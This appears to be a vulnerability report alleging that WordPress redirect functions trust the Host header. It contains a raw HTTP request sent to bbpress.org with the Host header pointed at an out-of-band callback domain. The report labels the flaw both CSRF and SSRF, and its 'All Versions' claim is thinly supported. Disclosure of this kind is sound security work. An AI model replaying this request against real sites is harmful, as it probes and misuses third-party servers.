 # WordPress <=6.2 HTTPS Redirect Server Cross Site Request Forgery

## Affected Versions

WordPress Versions <=6.2 or All Versions.
</br></br>

##Vulerable Code Location

Line 20 of the WordPress/wp-login.php file and Line 1185/1126 of the WordPress/wp-includes/pluggable.php, redirection methods such as wp_safe_redirect and wp_redirect do not filter the HOST header.
</br>
![image](https://user-images.githubusercontent.com/61698045/212012763-65e7f806-435e-4492-b041-573dc4807dcd.png)
</br>

## Reporting Vulnerability

The official demo site is the latest version 6.2-alpha-55047, as a demo.
</br></br>
1、Use Burp Suite to intercept HTTP requests: http://bbpress.org/
</br></br>
2、Send HTTP SSRF requests to bbpress.org
</br></br>
GET / HTTP/1.1
</br>
Host: sieffowm3fd4d0ky081ikmrhe8ky8n.oastify.com
</br>
DNT: 1
</br>
Upgrade-Insecure-Requests: 1
</br>
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1474.0
</br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
</br>
Accept-Encoding: gzip, deflate
</br>
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
</br>
sec-ch-ua-platform: "Windows"
</br>
sec-ch-ua: "Edge";v="109", "Chromium";v="109", "Not=A?Brand";v="24"
</br>
sec-ch-ua-mobile: ?0
</br>
Connection: close
</br>
</br></br>

![image](https://user-images.githubusercontent.com/61698045/212013319-13d447ef-ea25-470a-a837-e39f54a7b5ee.png)
</br>
![image](https://user-images.githubusercontent.com/61698045/212013479-09508854-414f-4069-8dda-ad77b9deabb9.png)
</br>
